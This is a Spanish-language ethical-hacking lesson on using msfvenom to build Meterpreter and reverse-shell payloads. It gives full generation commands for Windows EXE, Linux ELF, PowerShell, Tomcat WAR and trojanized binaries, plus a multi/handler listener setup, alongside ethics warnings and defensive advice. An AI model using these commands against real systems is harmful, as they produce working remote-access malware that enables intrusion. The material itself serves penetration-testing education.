

# Clase 075 — msfvenom: generación de payloads

> Parte: **3 — Hacking ético y pentesting: metodología** · Fuente: *Peter Kim - "The Hacker Playbook 3"; Georgia Weidman - "Penetration Testing: A Hands-On Introduction to Hacking"*
> ⏱️ Duración estimada: **120 min** · Nivel: **Avanzado**

---

## 🎯 Objetivo

El alumno aprenderá a generar payloads independientes con msfvenom en múltiples formatos y plataformas (ejecutables Windows, binarios Linux, scripts web, one-liners de PowerShell), comprenderá el papel real de los encoders y las plantillas, y aprenderá a recibir la conexión resultante con `multi/handler`. msfvenom es, en esencia, la herramienta que genera malware funcional con fines educativos; por eso esta clase exige el nivel más alto de responsabilidad ética del módulo.

## 📚 Resultados de aprendizaje

Al finalizar, el alumno podrá:

1. Generar payloads standalone para Windows, Linux y aplicaciones web usando msfvenom.
2. Seleccionar correctamente formato de salida, arquitectura y tipo de payload según el objetivo.
3. Configurar LHOST/LPORT y recibir la sesión resultante con `exploit/multi/handler`.
4. Aplicar encoders e iteraciones, y explicar honestamente por qué no constituyen una evasión de antivirus fiable.
5. Distinguir payloads staged y stageless y elegir el handler correspondiente sin errores.
6. Incrustar un payload en una plantilla ejecutable legítima usando `-x` y `-k`.

## 🗺️ Temas

| # | Tema | Por qué importa |
|---|------|------------------|
| 1 | Anatomía de un comando msfvenom (`-p`, `-f`, `-o`, LHOST, LPORT) | Es la sintaxis base que se repite en todas las variantes |
| 2 | Formatos de salida (`-f`): exe, elf, raw, psh, war | El formato debe coincidir con cómo se ejecutará en el objetivo real |
| 3 | Listado de payloads y formatos disponibles | Permite elegir el payload correcto por plataforma y arquitectura |
| 4 | Encoders (`-e`, `-i`) y sus límites reales | Evita el error común de creer que ofuscan contra AV moderno |
| 5 | Plantillas (`-x`, `-k`) | Permiten incrustar el payload en un binario legítimo |
| 6 | `exploit/multi/handler` | Es el listener genérico que recibe la conexión del payload generado |
| 7 | Bad characters (`-b`) | Evita bytes que rompen el payload en ciertos contextos de explotación |
| 8 | Staged vs. stageless en la nomenclatura del payload | El nombre exacto determina qué handler configurar |

## 🧠 Explicación en profundidad

### Cuando el objetivo no tiene un exploit remoto, se lo llevas tú

No todo acceso viene de explotar un servicio de red. Muchas veces el vector es que
**alguien ejecute un fichero**: un adjunto de phishing, un binario dejado tras un acceso
inicial, una macro. **msfvenom** es la herramienta de Metasploit para **fabricar ese
fichero**: genera un payload autónomo, en el formato que necesite el objetivo, listo para
ejecutarse y conectar de vuelta al handler. Es el puente entre "tengo un payload" y "tengo
un artefacto que puedo entregar".

Su sintaxis es un patrón que se repite en todas las variantes, y memorizarlo ahorra la
mayoría de los errores: `-p` elige el payload, `LHOST`/`LPORT` dicen a dónde conectar, `-f`
fija el formato de salida y `-o` el fichero. Por ejemplo,
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f exe -o update.exe`.



La regla que nunca se salta: el **handler** que espera la conexión debe configurarse con
**exactamente el mismo payload, LHOST y LPORT** con los que se generó el artefacto. Un
desajuste aquí —sobre todo confundir staged con stageless, que en el nombre del payload
distingue la `/` de la `_` ([Clase 073](../073-metasploit-explotacion-y-payloads/README.md))— es la causa más frecuente de "genero el
fichero, se ejecuta, y no me conecta".

### El formato debe encajar con cómo se ejecutará

`-f` elige el envoltorio, y tiene que corresponder con el objetivo real: `exe` para
Windows, `elf` para Linux, `apk` para Android, `psh` para PowerShell, `war` para servidores
Java/Tomcat, `raw` para inyectar el *shellcode* crudo en otro exploit. Elegir mal el formato
es tan fatal como elegir mal el payload: un `.exe` no se ejecuta en Linux y un `.elf` no
sirve donde esperabas subir una macro. Las plantillas (`-x`) permiten **incrustar el payload
en un binario legítimo** —un instalador real que sigue funcionando pero además ejecuta el
payload—, y `-k` intenta mantener la funcionalidad original del programa anfitrión.

### Encoders: el malentendido más caro de esta clase

Aquí está la lección que corrige un error extendido. Los **encoders** (`-e`, con `-i` para
iteraciones) **no ofuscan contra el antivirus moderno**. Su propósito original era
resolver un problema técnico concreto —eliminar **bad characters** (`-b`): bytes como el
nulo `0x00` que rompen el payload en ciertos contextos de explotación, por ejemplo un
desbordamiento que se corta en el primer nulo— y adaptar el shellcode a restricciones de
formato. El mito de que un encoder popular como `shikata_ga_nai` "evade el AV" es
justamente eso, un mito: las firmas de los antivirus incluyen desde hace años los propios
patrones de decodificación de esos encoders, así que codificar un payload de Metasploit a
menudo lo hace **más** detectable, no menos. La evasión real de defensas modernas es un
tema aparte y mucho más complejo (Parte 7), y consiste en no usar payloads conocidos, no en
codificarlos.

La honestidad sobre esta limitación es parte del método: en un pentest, generar un binario
de Metasploit sin más y esperar que pase el EDR corporativo es perder el tiempo. Sirve para
laboratorios y para objetivos sin defensas de endpoint; para el resto, hay que entender que
lo que un antivirus caza no es la maldad del payload sino su **familiaridad**, y `msfvenom`
produce, por definición, payloads muy familiares.

## 📖 Definiciones y características

- **msfvenom**: herramienta de línea de comandos que fusiona las antiguas `msfpayload` y `msfencode`, generando payloads standalone ejecutables fuera de `msfconsole`. Característica clave: produce artefactos binarios o scripts que se ejecutan de forma independiente en el sistema objetivo.
- **Formato de salida (`-f`)**: contenedor final del payload (exe, elf, raw, psh-cmd, war, apk, entre otros). Característica clave: debe coincidir exactamente con el mecanismo de ejecución previsto en el objetivo (doble clic, `chmod +x`, despliegue en un servidor de aplicaciones, etc.).
- **Encoder**: transforma la representación del payload para evitar bad characters o introducir variación superficial en la firma binaria. Característica clave: no es una técnica de evasión de antivirus moderno fiable; los motores actuales usan heurística y análisis de comportamiento, no solo firmas estáticas.
- **Plantilla (`-x`)**: ejecutable legítimo preexistente en el que se inyecta el payload generado. Característica clave: la opción `-k` intenta preservar la funcionalidad original del ejecutable mientras corre el payload en un hilo separado.
- **Bad characters (`-b`)**: bytes que deben evitarse en el payload generado porque rompen la ejecución en un contexto de explotación específico (por ejemplo `\x00` en buffers basados en strings terminadas en null). Característica clave: se identifican durante el desarrollo del exploit, no son universales para todos los escenarios.
- **`exploit/multi/handler`**: módulo genérico de Metasploit que actúa como listener para cualquier payload standalone generado con msfvenom. Característica clave: la configuración del handler (tipo de payload, LHOST, LPORT) debe ser idéntica a la usada al generar el payload.

## 📔 Glosario

| Término | Definición concisa |
|---------|--------------------|
| msfvenom | Generador de payloads autónomos de Metasploit |
| `-p` | Selecciona el payload |
| LHOST / LPORT | Dirección y puerto de vuelta al handler |
| `-f` (formato) | Envoltorio de salida: exe, elf, apk, psh, war, raw |
| `-o` | Fichero de salida |
| Artefacto | Fichero generado listo para entregar o ejecutar |
| exploit/multi/handler | Listener que debe coincidir con el payload generado |
| Plantilla (`-x`) | Incrustar el payload en un binario legítimo |
| `-k` | Intenta preservar la función del binario anfitrión |
| Encoder (`-e`, `-i`) | Transforma el payload; **no** ofusca contra AV moderno |
| shikata_ga_nai | Encoder popular; su patrón está en las firmas de AV |
| Bad character (`-b`) | Byte que rompe el payload en cierto contexto |
| Byte nulo (`0x00`) | Bad character clásico en desbordamientos |
| Staged vs stageless | El nombre (`/` vs `_`) fija qué handler configurar |
| Detección por familiaridad | El AV caza patrones conocidos, no "maldad" |

## 🧰 Herramientas y preparación

- Metasploit Framework (incluye msfvenom) en Kali Linux o Parrot OS.
- Listar payloads y formatos disponibles antes de empezar:

  ```bash
  msfvenom --list payloads | less
  msfvenom --list formats
  ```

- Una VM de laboratorio propia (Windows o Linux) donde el propio alumno ejecutará el artefacto generado, simulando la entrega sin involucrar a terceros ni técnicas de ingeniería social real.
- Espacio de almacenamiento local aislado para los binarios generados (nunca subirlos a servicios de análisis públicos).

> ⚠️ **Nota ética — lectura obligatoria, la más estricta del módulo:** los archivos generados con msfvenom son, literalmente, malware funcional con fines exclusivamente educativos. Se generan y ejecutan **únicamente** dentro de un laboratorio propio y aislado (VMs propias sin conexión a redes de producción) o dentro del alcance de un contrato de pentesting con reglas de engagement firmadas que autoricen explícitamente pruebas de ingeniería social/entrega de artefactos. Nunca distribuyas estos binarios fuera del laboratorio, nunca los subas a servicios públicos de análisis de malware (comparten muestras con terceros y pueden filtrar tu artefacto o alertar a un objetivo real), y nunca los uses contra un sistema o persona sin autorización explícita por escrito. Crear y desplegar malware contra sistemas no autorizados es un delito grave independientemente de la intención declarada.

## 🧪 Laboratorio guiado

Atacante Kali con IP `192.168.56.10` (ajustar según tu red de laboratorio).

1. Genera un payload Meterpreter reverse para Windows en formato ejecutable: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f exe -o /tmp/update.exe`.
2. Genera el equivalente para Linux en formato ELF: `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f elf -o /tmp/backup`.
3. Genera un one-liner de PowerShell para escenarios donde no se puede subir un ejecutable: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f psh-cmd`.
4. Genera un payload web para un servidor Tomcat de laboratorio: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f war -o /tmp/shell.war`.
5. Genera un payload con encoder e iteraciones, con fines exclusivamente didácticos para observar el efecto (no de evasión real): `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o /tmp/enc.exe`.
6. Levanta el handler correspondiente en `msfconsole`: `use exploit/multi/handler`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `set LHOST 192.168.56.10`, `set LPORT 4444`, `exploit -j`.
7. Ejecuta el artefacto generado directamente en tu VM de laboratorio propia y confirma la sesión recibida con `sessions -l`.
8. Genera un payload incrustado en una plantilla legítima: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -x /ruta/a/binario_legitimo.exe -k -f exe -o /tmp/troyanizado.exe`, y verifica en el laboratorio que el binario original sigue funcionando además de establecer la sesión.
9. Ejecuta el binario generado con un antivirus/EDR de laboratorio instalado en la VM víctima y documenta si fue detectado, con qué nombre de firma y en qué fase (al escribir en disco o al ejecutarse).

## ✍️ Ejercicios

1. Genera el mismo payload en formato `exe` y en formato `raw`, y explica en qué escenario usarías cada uno.
2. Genera un payload evitando bytes específicos con `-b '\x00\x0a'` y justifica por qué se evitarían esos bytes en un contexto de explotación de buffer.
3. Incrusta un payload en un ejecutable legítimo de tu laboratorio usando `-x` y `-k`, y comprueba que ambas funcionalidades (la original y el payload) siguen operativas.
4. Explica, con fundamento técnico, por qué el encoder shikata_ga_nai ya no evade antivirus modernos con detección heurística.
5. Genera un one-liner de PowerShell y descompón, paso a paso, qué hace cada segmento del comando resultante.
6. Configura un handler que coincida con un payload staged y otro que coincida con uno stageless, documentando la diferencia exacta en la nomenclatura de ambos.
7. Desde la óptica defensiva, documenta qué regla de EDR o de hash (ej. detección por comportamiento de proceso hijo inesperado) permitiría bloquear la ejecución del payload generado en el ejercicio 1.

## 📝 Reto verificable

**Reto:** Generar un payload con msfvenom, entregarlo únicamente en la VM de laboratorio propia, y obtener la sesión correspondiente en el handler configurado.

**Criterio de aceptación:** el artefacto se genera con LHOST/LPORT correctos y documentados; el handler en `msfconsole` usa exactamente el mismo tipo de payload (misma arquitectura, mismo formato staged/stageless); tras ejecutar el binario manualmente en la VM propia, `sessions -l` muestra la sesión activa; y se documenta el comando exacto de generación junto con el comando exacto del handler.

## ⚠️ Errores comunes

| Síntoma / mensaje | Causa y cómo arreglar |
|---|---|
| El handler nunca recibe la conexión | El payload configurado en el handler no coincide exactamente con el generado (arquitectura o staged/stageless distintos); deben ser idénticos |
| "No encoder succeeded" al generar el payload | Combinación de bad chars imposible de resolver o payload demasiado grande tras el encoding; reducir la lista de `-b` |
| El ejecutable es detectado y eliminado por el antivirus del laboratorio | Comportamiento esperado y correcto; los encoders de msfvenom no están diseñados para evadir AV moderno |
| El payload Linux no se ejecuta tras transferirlo | Falta el permiso de ejecución; aplicar `chmod +x` antes de ejecutar |
| Se generó para arquitectura equivocada (x86 en un sistema x64) | Verificar la arquitectura del objetivo y usar el payload correspondiente, ej. `windows/x64/...` |
| El binario troyanizado con `-x` deja de funcionar como el original | Falta la opción `-k`, que preserva la ejecución del binario original en un hilo separado |
| El payload web (`.war`) no se despliega en el servidor de laboratorio | Falta reiniciar el servicio de aplicaciones o el archivo no tiene el nombre/ruta esperada por el auto-deploy; revisar logs del servidor |

## ❓ Preguntas frecuentes

**❓ ¿Los encoders de msfvenom evaden antivirus modernos?**
No de forma fiable. Encoders como shikata_ga_nai fueron diseñados originalmente para evitar bad characters en contextos de explotación, no para evadir motores de antivirus con heurística y análisis de comportamiento. Presentarlos como técnica de evasión sería engañoso; la evasión real de AV requiere técnicas mucho más avanzadas fuera del alcance de esta clase.

**❓ ¿Cómo distingo un payload staged de uno stageless en msfvenom?**
Por la nomenclatura: un payload como `windows/meterpreter/reverse_tcp` (con `/` antes de `reverse_tcp`) es staged, mientras que `windows/meterpreter_reverse_tcp` (con `_` uniendo meterpreter y reverse_tcp) es stageless. El handler debe configurarse exactamente con el mismo string.

**❓ ¿Puedo subir el payload generado a VirusTotal para probar si es detectado?**
No, ni siquiera en laboratorio. Servicios como VirusTotal comparten las muestras enviadas con proveedores de antivirus y terceros, lo que podría filtrar tu artefacto o, en un engagement real, alertar prematuramente al objetivo. Usa siempre un entorno de análisis aislado y propio.

**❓ ¿Qué formato de payload uso para una aplicación web Java vulnerable en laboratorio?**
Generalmente `war` para servidores tipo Tomcat, o `jsp` si se puede subir el archivo directamente al directorio de despliegue del servidor de laboratorio.

**❓ ¿Es necesario usar siempre una plantilla (`-x`) al generar un payload?**
No. La plantilla solo es necesaria cuando el escenario de laboratorio requiere que el payload aparente ser un programa legítimo funcional; para pruebas técnicas simples, un ejecutable standalone sin plantilla es suficiente y más simple de depurar.

**❓ ¿Qué debería hacer un equipo defensivo para reducir el riesgo de payloads generados con msfvenom?**
Priorizar EDR con detección por comportamiento (no solo firmas de archivo), deshabilitar la ejecución de macros y scripts no firmados, aplicar listas de aplicaciones permitidas (application allowlisting) y monitorear conexiones salientes hacia puertos e IPs no habituales, ya que un payload reverse_tcp siempre necesita iniciar una conexión de red detectable.

## 🔗 Referencias

- Kim, P. "The Hacker Playbook 3" (2018) — capítulo sobre generación y entrega de payloads.
- Weidman, G. "Penetration Testing: A Hands-On Introduction to Hacking" (No Starch Press, 2014) — fundamentos de payloads y shells.
- Offensive Security, documentación de msfvenom: <https://www.offsec.com/metasploit-unleashed/msfvenom/>
- Rapid7, documentación oficial de Metasploit sobre msfvenom: <https://docs.metasploit.com/>
- MITRE ATT&CK, técnica T1027 (Obfuscated Files or Information) como contexto defensivo de encoders: <https://attack.mitre.org/techniques/T1027/>
- MITRE ATT&CK, técnica T1071 (Application Layer Protocol) para el tráfico de comando y control de un handler: <https://attack.mitre.org/techniques/T1071/>

## 📥 Material descargable

- 📄 [Guía en PDF](./clase-075-guia.pdf) — versión imprimible de esta clase.
- 🎞️ [Presentación (PPTX)](./clase-075-presentacion.pptx) — deck para proyectar en clase.

## ⬅️ Clase anterior

[Clase 074 — Meterpreter y post-explotación](../074-meterpreter-y-post-explotacion/README.md)

## ➡️ Siguiente clase

[Clase 076 — Escalada de privilegios en Linux](../076-escalada-de-privilegios-en-linux/README.md)
